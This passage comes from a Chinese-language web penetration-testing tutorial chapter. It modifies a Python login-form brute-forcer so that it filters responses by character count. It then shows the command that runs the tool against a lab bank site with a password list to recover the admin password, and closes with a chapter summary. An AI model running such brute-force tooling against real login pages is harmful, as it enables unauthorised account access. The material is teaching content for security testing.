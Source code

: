 所以，按代码过滤对我们没有帮助。我们可以过滤掉等于`2373`的`chars`，我们知道这是我们失败的尝试。

让我们修改代码以过滤`chars`，而不是使用命令行参数`-c`过滤代码。我们将代码更改为按`chars`过滤。这样，我们就可以通过`chars`进行过滤，而无需修改大部分代码。返回编辑器，将行`self.hidecode !=code`修改为`self.hidecode != chars:`：

```py
            if self.hidecode != chars:
                if '200' <= code < '300':
                    print totaltime + "\t" + colored(code,'green') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines +"\t" + r.headers["server"] + "\t" + self.word
                elif '400' <= code < '500':
                    print totaltime + "\t" + colored(code,'red') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines + "\t" + r.headers["server"] + "\t" + self.word
                elif '300' <= code < '400':
                    print totaltime + "\t" + colored(code,'blue') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines + "\t"+ r.headers["server"] + "\t" + self.word
            else:
                pass
            i[0] = i[0] - 1 # Here we remove one thread from the counter
        except Exception, e:
            print e
```

让我们保存这个。现在，我们将命令行更改为添加`-c 2373`以过滤所有结果，然后再次运行它：

```py
python forzaBruta-forms.py -w http://www.scruffybank.com/check_login.php -t 5 -f pass.txt -p "username=admin&password=FUZZ" -c 2373
```

含糖的我们有用户名和密码：

![](img/00063.jpeg)

祝贺您，您现在知道如何针对三种最常见的 web 应用身份验证方法测试密码安全性了！在本节中，我们还利用了以前的工作。

# 总结

在本章中，我们了解了 web 应用中常用的不同身份验证方法，并创建了一个工具来测试基本身份验证和摘要身份验证。最后，我们创建了一个登录表单身份验证 BruteForce。

在[第 6 章](6.html#22O7C0-5a228e2885234f4ba832bb786a6d0c80)*检测和利用 SQL 注入漏洞*中，我们将学习如何检测和利用 SQL 注入漏洞。